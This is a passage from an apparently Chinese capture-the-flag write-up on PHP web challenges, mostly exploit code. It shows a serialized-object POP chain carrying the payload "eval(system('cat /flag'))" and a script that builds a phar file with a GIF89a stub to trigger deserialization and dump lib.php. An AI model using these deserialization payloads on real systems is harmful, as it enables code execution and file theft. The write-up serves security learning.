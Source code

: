 ```
    }
}
class Rose{
    public $var1;
    public $var2;
    function __invoke(){
        }
}

$str = "?><?php eval(system('cat /flag'));?>";
$a = new Exception($str,1);$b = new Exception($str,2);
$exp = new Titanic;
$exp->people = new Jack;
$exp2 = new Love;
$exp2->var = new Rose();
$exp2->var->var1 = $a;
$exp2->var->var2 = $b;
$exp->people->action = $exp2;
$exp->ship = $exp2;
echo urlencode(serialize($exp));
?>
```



## 0x02 不一样的web

进入平台发现文件上传，在网页源码提示中又观察到了两个类对象`Test`和`Read`，推测是phar反序列化漏洞。观察到源码类中有文件读取`lib.php`，构造exp读取`lib.php`：

readlib.php

```
<?php

class Read{
    public $name;
    public function file_get()
    {
        $text = base64_encode(file_get_contents("lib.php"));
        echo $text;
    }
}
class Test{
    public $f;
    public function __construct($value){
        $this->f = $value;
    }

    public function __wakeup()
    {
        $func = $this->f;
        $func();
    }
}

    $phar = new Phar('phar.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $b = Array('Read','file_get');
    $a = new Test($b);
    $phar -> setMetadata($a);
    $phar -> addFromString('test.txt','test');
    $phar -> stopBuffering();
?>
```